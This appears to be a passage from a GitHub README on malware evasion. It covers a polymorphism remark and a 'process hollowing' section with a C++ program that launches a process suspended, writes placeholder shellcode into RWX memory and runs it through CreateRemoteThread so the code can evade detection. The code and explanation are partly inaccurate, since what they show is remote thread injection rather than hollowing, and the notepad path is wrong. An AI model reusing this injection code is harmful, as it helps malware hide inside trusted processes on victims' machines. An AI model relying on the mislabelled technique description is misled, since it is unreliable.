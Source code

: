 ### Remark

These steps work only with compiled languages interpreted ones need to be changed manually.


![polymorphic](/polymorphic.png)



## 4- Evasion process hollowing

Process hollowing is a technique used by malware authors to inject malicious code into the address space of a legitimate process running on a target system. This technique allows malware to hide its presence and evade detection by executing within the context of a trusted process. Here's a more in-depth look at process hollowing:

**How Process Hollowing is Performed:**

1. **CreateProcess:** The malware typically starts by creating a new process using the `CreateProcess` function in Windows. This creates a new instance of a legitimate executable, such as `explorer.exe` or `svchost.exe`.

2. **Allocate Memory:** The malware allocates memory within the address space of the newly created process using functions like `VirtualAllocEx` or `NtAllocateVirtualMemory`.

3. **Write Code:** It then writes its malicious code into the allocated memory space within the target process using functions like `WriteProcessMemory`.

4. **Thread Creation:** A new thread is created within the target process to execute the malicious code. This is often done using `CreateRemoteThread`.


```cpp
#include <windows.h>

int main() {
    // Step 1: Create a new process (e.g., notepad.exe)
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;

    if (!CreateProcess(NULL, "C:/Program Files/notepad/notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        return 1;
    }

    // Step 2: Allocate memory within the target process
    LPVOID pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Step 3: Write the malicious code to the allocated memory
    BYTE shellcode[] = { /* Your malicious code here */ };

    WriteProcessMemory(pi.hProcess, pRemoteCode, shellcode, sizeof(shellcode), NULL);

    // Step 4: Create a new thread in the target process to execute the injected code
    HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

    // Step 5: Resume the main thread of the target process
    ResumeThread(pi.hThread);

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}
```
